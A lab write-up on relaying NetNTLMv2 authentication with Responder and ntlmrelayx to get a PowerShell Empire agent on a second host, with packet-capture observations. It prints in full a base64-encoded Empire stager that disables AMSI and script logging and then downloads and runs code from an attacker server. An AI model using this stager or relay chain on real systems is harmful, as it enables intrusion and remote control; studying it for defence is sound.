




# Empire Shells with NetNLTMv2 Relaying

This lab will perform a NetNLTM authentication relay attack where a `victim1` host will try to authenticate to our attacking system, which will be listening for authentication attemps and relaying them to `victim2` host with the aim to get an Empire agent back from the victim2 host.

## Environment

* 10.0.0.5 - attacking system, listening for authentication requests and relaying them
* 10.0.0.7 - victim1. This is the system that will attempt authenticating to 10.0.0.5 by revealing its NetNTLMv2 hashes
* 10.0.0.2 - victim2. This is the system that the attacker will authenticate to with victim1 hashes. This is the system that will send the attacking system an Empire shell back, running in the context of victim1.

## Execution

Below steps are all done on the attacking system.

One of the tools we will be using is Responder. Switch off SMB and HTTP listeners in responder's config file like so:



Start the Responder:

```csharp
responder -I eth1 -v
```

Configure a Powershell Empire `http` listener:



Generate an Empire stager for the `http` listener:

```text
launcher powershell http
```



Start a relay server:

```csharp
ntlmrelayx.py -t 10.0.0.2 -c 'powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAFIAUwBJAE8AbgBUAGEAYgBMAEUALgBQAFMAVgBlAHIAUwBpAG8ATgAuAE0AQQBKAE8AcgAgAC0AZwBlACAAMwApAHsAJABHAFAARgA9AFsAcgBFAGYAXQAuAEEAcwBTAGUAbQBiAGwAeQAuAEcAZQB0AFQAWQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAVABGAGkARQBgAEwARAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBGACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAEEATABVAGUAKAAkAG4AVQBMAGwAKQA7AEkAZgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAFYAYQBMAD0AWwBDAE8ATABMAGUAQwBUAGkATwBOAFMALgBHAGUAbgBlAHIASQBjAC4ARABJAGMAdABpAG8AbgBhAHIAWQBbAHMAdAByAGkAbgBnACwAUwB5AFMAdABlAG0ALgBPAEIAagBlAEMAVABdAF0AOgA6AG4ARQB3ACgAKQA7ACQAVgBhAGwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBBAEwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJAB2AEEAbAB9AEUAbABzAGUAewBbAFMAQwBSAEkAcAB0AEIATABvAEMASwBdAC4AIgBHAEUAdABGAEkARQBgAGwAZAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAFQAVgBBAGwAdQBFACgAJABOAHUAbABsACwAKABOAGUAdwAtAE8AYgBqAGUAYwBUACAAQwBvAGwATABlAGMAVABJAE8AbgBzAC4ARwBFAG4AZQByAEkAYwAuAEgAQQBTAEgAUwBlAFQAWwBTAFQAUgBJAE4AZwBdACkAKQB9AFsAUgBlAEYAXQAuAEEAUwBzAGUAbQBiAEwAeQAuAEcARQB0AFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBFAFQARgBJAGUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAGEATABVAEUAKAAkAE4AdQBMAEwALAAkAFQAUgB1AEUAKQB9ADsAfQA7AFsAUwB5AFMAdABlAG0ALgBOAEUAVAAuAFMARQByAHYASQBDAGUAUABPAEkATgB0AE0AYQBuAEEAZwBFAFIAXQA6ADoARQBYAFAAZQBjAFQAMQAwADAAQwBvAE4AdABJAE4AVQBFAD0AMAA7ACQAVwBjAD0ATgBlAFcALQBPAEIAagBlAGMAdAAgAFMAWQBTAFQARQBtAC4ATgBlAFQALgBXAGUAYgBDAEwAaQBlAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAQwAuAEgAZQBhAGQAZQBSAHMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAHcAQwAuAFAAcgBPAFgAWQA9AFsAUwB5AFMAVABlAG0ALgBOAGUAdAAuAFcARQBiAFIARQBRAHUAZQBzAFQAXQA6ADoARABlAGYAQQBVAEwAVABXAEUAQgBQAFIATwB4AFkAOwAkAFcAYwAuAFAAcgBPAFgAWQAuAEMAUgBlAGQARQBOAFQASQBhAEwAUwAgAD0AIABbAFMAeQBzAHQARQBtAC4ATgBlAHQALgBDAHIARQBkAGUAbgB0AGkAYQBsAEMAYQBjAGgAZQBdADoAOgBEAGUAZgBBAHUATABUAE4ARQB0AHcAbwBSAEsAQwBSAGUARABlAE4AVABJAEEAbABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AFMAVABlAG0ALgBUAEUAeABUAC4ARQBOAEMAbwBkAGkATgBnAF0AOgA6AEEAUwBDAEkASQAuAEcARQB0AEIAWQB0AGUAUwAoACcAUgAuACUAPwBWAHQAQwA4AHgAcQBnAG4AcwBGAGMANQBaACsAOgA5AHcAZABFAH0AQQBCAE0AcAB7AG0AegBPACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAeABvAHIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADIALgA3ADEAOgA4ADAAJwA7ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAdwBDAC4ASABFAEEAZABlAFIAUwAuAEEAZABkACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AdABsADEAdQAvAFQAZABWAHEATwBGADQALwBMAEwAeQAxAHUAUwBxAFAAZQBjAFYAMABWAFkAPQAiACkAOwAkAGQAYQBUAEEAPQAkAFcAQwAuAEQATwBXAE4ATABvAEEARABEAEEAdABhACgAJABzAEUAcgArACQAdAApADsAJABJAHYAPQAkAGQAQQBUAGEAWwAwAC4ALgAzAF0AOwAkAGQAQQBUAGEAPQAkAEQAYQBUAGEAWwA0AC4ALgAkAGQAYQBUAGEALgBsAGUATgBnAFQAaABdADsALQBqAG8ASQBuAFsAQwBIAGEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAGQAYQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA=='
```

nltmrelay.py will be listening for any relayed NetNTLMv2 hashes and will forward them to a victim2 system \(-t 10.0.0.2\). On successful authentication, a command \(specified with -c powershell... - which is our Empire stager\) will be exeucted on victim2. 


Note that the NetNTLMv2 hashes cannot be relayed to the same host they are originating from. You can, however, try cracking them offline and use them on the machine they originated from.


Below shows the entire attack in an animated gif:

* attacker sets up the listeners and servers
* victim1 \(Windows 10\) tries to authenticate to the attacker's http server by providing offense\administrator credentials when visiting http://10.0.0.5/legitpage
* attacker relays the authentication request to victim2
* authentication succeeds and empire agent comes back to the attacker from victim2


## Observations

Inspecting the traffic that was generated during this lab, it can be observed that once victim1 \(10.0.0.7\) gives away their hashes to the attacker \(10.0.0.5\) in packet \#25, the authentication hashes are immediately relayed to the victim2 \(10.0.0.2\) system via SMB as seen in packet \#26:


A quick look into the first HTTP stream of this attack and we can see the NTLM authentication handshake taking place. Highlighted in green \(base64 encoded binary data in http stream\), the console, and a packet selected in Wireshark show the last step of the handshake where victim1 is sending its host name, its domain with user name and the challenge response to the server \(attacker\) - which is the data that gets relayed eventually in the packet \#26 as discussed above:



Once the attacker successfully authenticates to the victim2 via SMB, a new service with our malicious payload is created remotely on the victim2 and executed. This is when we get our Empire stager executed and receive the shell back.



## References







